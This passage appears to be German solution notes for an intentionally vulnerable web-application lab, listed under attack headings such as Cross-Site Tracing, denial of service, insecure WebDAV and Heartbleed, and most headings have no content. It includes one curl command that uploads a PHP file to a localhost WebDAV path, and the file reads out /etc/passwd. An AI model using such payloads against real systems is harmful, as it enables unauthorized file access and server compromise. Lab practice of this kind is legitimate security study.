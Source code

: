 ~~~
</html>
~~~

---
##### Cross-Site Tracing (XST)
---
##### Denial-of-Service (Large Chunk Size)
---
##### Denial-of-Service (Slow HTTP DoS)
---
##### Denial-of-Service (SSL-Exhaustion)
---
##### Denial-of-Service (XML Bomb)
---
##### Insecure FTP Configuration
>Falls anonyme authentifizierung aktiviert ist und schreiberechte vergeben wird, ist kein Login/Passwort notwendig.
---
##### Insecure SNMP Configuration
---
##### Insecure WebDAV Configuration
~~~
curl -X PUT --data '<?php $f=fopen("/etc/passwd","r"); echo fread($f,filesize("/etc/passwd")); fclose($f); ?>' 'http://localhost:8083/webdav/attack.php'
~~~
---
##### Local Privilege Escalation (sendpage)
---
##### Local Privilege Escalation (udev)
---
##### Man-in-the-Middle Attack (HTTP)
---
##### Man-in-the-Middle Attack (SMTP)
---
##### Old/Backup & Unreferenced Files
---
##### Robots File


---

### // A6 - Sensitive Data Exposure //
---
##### Base64 Encoding (Secret)
-> Mittels Burp Cookie auslesen
-> Decoder
Ergebnis: Any bugs?
---
##### BEAST/CRIME/BREACH Attacks
---
##### Clear Text HTTP (Credentials)
---
##### Heartbleed Vulnerability
unter "/evil" ist ein Python Script hinterlegt.
~~~
~~~